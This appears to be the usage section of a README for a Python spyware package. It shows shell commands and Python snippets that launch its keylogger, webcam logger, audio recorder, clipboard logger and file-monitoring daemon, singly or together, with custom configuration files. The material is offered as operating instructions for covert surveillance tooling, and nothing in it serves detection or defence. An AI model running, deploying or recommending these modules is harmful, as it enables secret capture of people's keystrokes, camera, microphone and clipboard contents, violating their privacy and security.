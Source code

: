 ### Python executables

```bash
python3 WebcamLogger.pyz                  # Execute the webcam module
python3 WebcamLogger.pyz my.conf          # Execute the webcam module with custom configuration file
# OR
chmod u+x AudioLogger.pyz                 # Add execution permission
./AudioLogger.pyz my.conf                 # Execute the audio (recorder) module

python3 SpyWare.pyz runonly --files       # Run only the files modules
# OR
chmod u+x SpyWare.pyz                     # Add execution permission
./SpyWare.pyz donotrun --clipboard --key  # Run all modules except clipboard module and keylogger
```

### Python module

```bash
python3 -m SpyWare                             # Run all modules
python3 -m SpyWare.AudioLogger                 # Run only one module
python3 -m SpyWare.WebcamLogger my.conf        # Run only one module with custom configuration file
python3 -m SpyWare.FilesLogger.FilesLogger     # Run only one module
python3 -m SpyWare.KeyLogger.KeyLogger my.conf # Run only one module with custom configuration file
```

### Python script

```python
from SpyWare import spyware
spyware()                    # Run all modules
```

```python
from SpyWare import AudioLogger
from SpyWare.KeyLogger import keySpy
AudioLogger.audioSpy()       # Run audio (recorder) module
keySpy(filename="my.conf")   # Run keylogger with custom configuration file
```

There are three way to change the configuration filename:
 1. Using the *filename* argument of the *configuration loader* function
 2. Using environment variables (in python: `os.environ`). The name of the environment variable is the filename of the default configuration file.
 3. Using command line arguments

Examples available in HTML documentation of modules.

```python
from SpyWare.FilesLogger import Daemon, filesConfig
filesConfig("my.conf")       # Load configuration
Daemon().run_for_ever()      # Start the daemon thread of "files" module
```

```python
from SpyWare.ClipboardLogger import Daemon, copyConfig

from os import environ
environ["clipboardSpy.conf"] = "my.conf" # Change the environment variable

copyConfig()                             # Load configuration

daemon = Daemon()
daemon.run_for_ever()                    # Start the daemon thread of clipboard module
```
